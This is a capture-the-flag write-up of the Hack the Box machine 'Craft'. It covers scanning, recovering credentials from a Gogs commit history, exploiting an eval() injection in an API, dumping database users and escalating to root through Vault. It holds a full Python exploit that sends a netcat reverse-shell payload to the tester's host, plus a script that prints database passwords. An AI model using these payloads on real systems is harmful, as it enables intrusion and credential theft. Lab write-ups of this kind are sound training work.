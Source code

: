 +++
author = "Nick"
categories = ["api", "CTF", "enumeration", "netcat", "python", "web services", "custom exploit", "Gogs"]
date = 2020-01-04T16:39:23Z
description = ""
draft = false
thumbnail = "/images/2019/08/info.png"
slug = "hack-the-box-craft"
summary = "Welcome back friends! Today we'll be doing the brand new box, Craft. This will be the first time I do a box as it's released and hope to continue this trend! So lets jump in!"
tags = ["api", "CTF", "enumeration", "netcat", "python", "web services", "custom exploit", "Gogs"]
title = "Hack the Box - Craft"

+++


Welcome back friends! Today we'll be doing the brand new box, Craft. This will be the first time I do a box as it's released and hope to continue this trend! So lets jump in!

Update: I should probably buy the Pro subscription from HtB. Doing a new box as it's released proved challenging. Often unresponsive and rebooting frequently. Lessons learned I guess.

As always, we kick it off with a standard nmap scan.

```bash
nmap -sC -sV -oA Craft/scan 10.10.10.110
```

We see a pretty limited amount of results.

```
Starting Nmap 7.70 ( https://nmap.org ) at 2019-07-15 16:11 EDT
Nmap scan report for 10.10.10.110
Host is up (0.52s latency).
Not shown: 998 closed ports
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 7.4p1 Debian 10+deb9u5 (protocol 2.0)
| ssh-hostkey: 
|   2048 bd:e7:6c:22:81:7a:db:3e:c0:f0:73:1d:f3:af:77:65 (RSA)
|   256 82:b5:f9:d1:95:3b:6d:80:0f:35:91:86:2d:b3:d7:66 (ECDSA)
|_  256 28:3b:26:18:ec:df:b3:36:85:9c:27:54:8d:8c:e1:33 (ED25519)
443/tcp open  ssl/http nginx 1.15.8
|_http-server-header: nginx/1.15.8
|_http-title: About
| ssl-cert: Subject: commonName=craft.htb/organizationName=Craft/stateOrProvinceName=NY/countryName=US
| Not valid before: 2019-02-06T02:25:47
|_Not valid after:  2020-06-20T02:25:47
|_ssl-date: TLS randomness does not represent time
| tls-alpn: 
|_  http/1.1
| tls-nextprotoneg: 
|_  http/1.1
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 42.08 seconds
```

Seems pretty low, lets try another swing at the nmap, but all ports.

![](/images/2019/07/image-21.png)

We see that port 6022 is open. I telnet into the port and get back what looks like some SSH responses.

![](/images/2019/07/image-22.png)

Looks like its using SSH-go as the server on this port. When we try to ssh into that port, we are prompted for a SSH key. We'll come back to this it seems.

We see the site being hosted on the box is talking about an API as well as a link to the API and its git repository, which is also locally hosted. Maybe some API enumeration? The API page has options to execute the API command and return the result back, we might be able to leverage this later on to get it to run something we want. So lets add some hostname entries so we can resolve better. We'll add api.craft.htb, craft.htb and gogs.craft.htb. Now that we can resolve those, lets check it our a bit more in depth.

The first stop will be to take a look at the git repository. In this case we're going to look through the commit history to see what we can find. We'll want to enumerate all of our domains. A run of Dirbuster against gogs.craft.htb and we see our users. If we dig though the personal history, we see that Dinesh has left us a nice script, with authorization inside it!

![](/images/2019/07/image-93.png)

If we take this script and recreate it, we get a valid authentication using those credentials. We can also test it against the API page to validate and download the token. Looks like we can use these credentials to authenticate to gogs.craft.htb as well.

When we are sifting though the notes we see 1 issue. This shows a possible problem with the ABV value.

![](/images/2019/07/image-94.png)

When we look at the changes made, we see it's using the function eval(). This is might be the way in. We can leverage this function to call remote code! More on why eval() is bad, here and here.

So what we'll do is modify the script Dinesh made for testing. We'll simply pass it `__import__('os').system('nc 10.10.10.15.248 1337 -e /bin/sh')` and get a netcat shell back and see what we can find. Here's what our modified code looks like:

```python
#!/usr/bin/env python

import os
import requests
import json

response = requests.get('https://api.craft.htb/api/auth/login',  auth=('dinesh', '4aUh0A8PbVJxgd'), verify=False)
json_response = json.loads(response.text)
token =  json_response['token']
headers = { 'X-Craft-API-Token': token, 'Content-Type': 'application/json'  }

# make sure token is valid
response = requests.get('https://api.craft.htb/api/auth/check', headers=headers, verify=False)
print(response.text)

# create a sample brew with bogus ABV... should fail.
print("Create bogus ABV brew")
brew_dict = {}
brew_dict['abv'] = '15'
brew_dict['name'] = 'bullshit'
brew_dict['brewer'] = 'bullshit'
brew_dict['style'] = 'bullshit'
json_data = json.dumps(brew_dict)
response = requests.post('https://api.craft.htb/api/brew/', headers=headers, data=json_data, verify=False)
print(response.text)

# create a sample brew with real ABV... should succeed.
print("Create real ABV brew")
brew_dict = {}
brew_dict['abv'] = '__import__(\'os\').system(\'nc 10.10.15.248 1337 -e \/bin\/sh\')'
brew_dict['name'] = 'bullshit'
brew_dict['brewer'] = 'bullshit'
brew_dict['style'] = 'Junk'
json_data = json.dumps(brew_dict)
response = requests.post('https://api.craft.htb/api/brew/', headers=headers, data=json_data, verify=False)
print(response.text)
```

After we run our codewe get a netcat connection!

![](/images/2019/07/image-95.png)

Well, this sends us to /opt/app as root, but when we look around, there's nothing here. It seems we're in a docker container. So in this case, we're going to head bad to where we landed and see whats here. When we run dbtest.py, we get back what the script is calling, so maybe we should try and modify it so we can dump some info.

Here's what our modified code looks like:
```python
#!/usr/bin/env python

import pymysql
from craft_api import settings

# test connection to mysql database
print("Host: "+ settings.MYSQL_DATABASE_HOST)
print("User: "+ settings.MYSQL_DATABASE_USER)
print("Password: "+ settings.MYSQL_DATABASE_PASSWORD)
print("Database: "+ settings.MYSQL_DATABASE_DB)
connection = pymysql.connect(host=settings.MYSQL_DATABASE_HOST,
                                 user=settings.MYSQL_DATABASE_USER,
                                 password=settings.MYSQL_DATABASE_PASSWORD,
                                 db=settings.MYSQL_DATABASE_DB,
                                 cursorclass=pymysql.cursors.DictCursor)

try: 
    with connection.cursor() as cursor:
        sql = "select * from user"
        cursor.execute(sql)
        result = cursor.fetchall()
        print(result)

finally:
    connection.close()
```

After we run our script, we get the following back:

![](/images/2019/07/image-96.png)

We now have three login credentials, lets see if any of these work on SSH. No dice. Lets try to log into Gogs with these. Turns our Gilfoyle's works. Now we can browse around what Gilfoyle has been doing. He has another repository as well. On inspection it seems to be the docker container that we are hosting the service in. When we check out the changes, we see a private key. We'll save this file and use it to authenticate via SSH.

![](/images/2019/07/image-97.png)

Great we are in. Now we can snag our user.txt and look for a way to pivot to root. Once we've explored the system, we notice that there is a program called [Vault](https://www.vaultproject.io/docs/install/index.html). I've never worked with this application before but gaining root was actually very easy once I knew what I was looking for and how Vault functions. After reading documentation for a few hours and trying many MANY commands (and failing) to gather what info I could on the structure that was setup, I had to take a step back and rethink the entry points. Then I realized that Vault has documents on SSH and keysigning. Lucky for us [Vault has a document](https://www.vaultproject.io/docs/secrets/ssh/one-time-ssh-passwords.html) on how to do just that! We follow that document through and....

![](/images/2019/08/image.png)

We get in using OTP. To the flag!

![](/images/2019/08/image-1.png)

We did it, both flags captured. This was a fun and new box for me. I learned a lot on some software I've never used before.

Hopefully something was learned. If you found this write-up helpful, consider sending some respect my way: [Lovecore's HTB Profile](https://www.hackthebox.eu/home/users/profile/95635).

